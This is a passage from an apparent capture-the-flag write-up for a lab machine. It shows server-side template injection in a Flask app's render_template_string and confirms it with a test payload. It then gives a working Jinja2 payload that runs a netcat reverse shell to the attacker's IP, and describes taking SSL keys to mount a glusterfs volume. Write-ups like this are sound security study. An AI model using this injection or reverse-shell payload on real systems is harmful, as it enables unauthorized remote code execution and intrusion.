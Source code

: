 ```python
    </body>
    </html>
  '''
  return render_template_string(template)

if __name__ == "__main__":
  app.run()

```

As seen, this is the configuration of the previously seen website. If there is no `config` specified in the client post request, `steampunk-era.htb` will be used (as seen before). Also, the picture will be set as an asset from the static subdirectory. 

Since this accepts user input and is being rendered with render_template_string, the code is vulnerable to [SSTI](https://portswigger.net/web-security/server-side-template-injection). If a request is sent with payload in the json, it should be executed in the template.

The general idea can be seen with the existing `config.json`:

```json
{
  "sitename": "steampunk-era.htb"
}
```

So the sitename is shown in the coming soon title. To test this, I can run the code on my own machine and debug. If the payload is:

```json
{
  "sitename": "anything",
  "siteurl":"{{7*7}}"
}
```
Assuming the rest of the http request is correct (likely have to change content-type to `application/json`), this returns:
```html
<title>49 - Coming Soon</title>
```

So the SSTI works. Using a reverse shell payload (I initially used `/bin/bash` but had errors which `sh` seemed to solve):

```python
{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('nc 10.10.14.2 9919 -e /bin/sh')['read']() }}
```

### www-data to jennifer
I can get a shell as `www-data`. After lots more enumeration, and remembering the previous `volume info` of glusterfs, it's apparent that keys in `/etc/ssl` can be listed:

![keys.png](https://i.imgur.com/1xgbAZG.png)

After downloading these and putting them in my `/etc/ssl` directory, I should be able to mount the first glusterfs volume by doing `sudo mount -t glusterfs flustered:/vol1 ./vol1`. 
